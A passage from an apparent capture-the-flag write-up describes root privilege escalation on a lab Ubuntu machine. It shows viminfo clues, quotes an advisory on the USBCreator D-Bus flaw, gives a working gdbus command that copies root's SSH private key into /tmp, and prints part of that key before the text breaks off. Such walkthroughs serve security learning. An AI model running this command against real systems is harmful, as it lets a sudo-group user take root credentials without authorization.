 ```shell

# Jumplist (newest first):
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
        "       12      7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0
```

Looking at the viminfo we see the user interacted with two file and both of them are owned by root:

```shell
nadav@passage:~$ ls -la /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-rw-r--r-- 1 root root 766 Apr 29  2015 /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-rw-r--r-- 1 root root  65 Jan 15  2019 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
```

A quick google on `ubuntu usb creater exploit` brings us to this [**article**](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) from Palo Alto

As per the article:

> Vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

Apparently to exploit this bug we just need to be in sudo group, which we are already.

Referring the article we'll use the command used at the end of the article to copy root's SSH key data to another file.

```shell
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/coldfx true
()
```

Checking if the file is created:

```shell
nadav@passage:~$ cd /tmp/
nadav@passage:/tmp$ ls -la coldfx
-rw-r--r-- 1 root root 1675 Mar  9 11:22 coldfx
nadav@passage:/tmp$ cat coldfx
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAth1mFSVw6Erdhv7qc+Z5KWQMPtwTsT9630uzpq5fBx/KKzqZ
B7G3ej77MN35+ULlwMcpoumayWK4yZ/AiJBm6FEVBGSwjSMpOGcNXTL1TClGWbdE
+WNBT+30n0XJzi/JPhpoWhXM4OqYLCysX+/b0psF0jYLWy0MjqCjCl/muQtD6f2e
jc2JY1KMMIppoq5DwB/jJxq1+eooLMWVAo9MDNDmxDiw+uWRUe8nj9qFK2LRKfG6
U6wnyQ10ANXIdRIY0bzzhQYTMyH7o5/sjddrRGMDZFmOq6wHYN5sUU+sZDYD18Yg
ezdTw/BBiDMEPzZuCUlW57U+eX3uY+/Iffl+AwIDAQABAoIBACFJkF4vIMsk3AcP
0zTqHJ1nLyHSQjs0ujXUdXrzBmWb9u0d4djZMAtFNc7B1C4ufyZUgRTJFETZKaOY
8q1Dj7vJDklmSisSETfBBl1RsiqApN5DNHVNIiQE/6CZNgDdFTCnzQkiUPePic8R
P1St2AVP1qmMvVimDFSJoiOEUfzidepXEEUQrByNmOJDtewMSm4aGz60ced2XCBr
```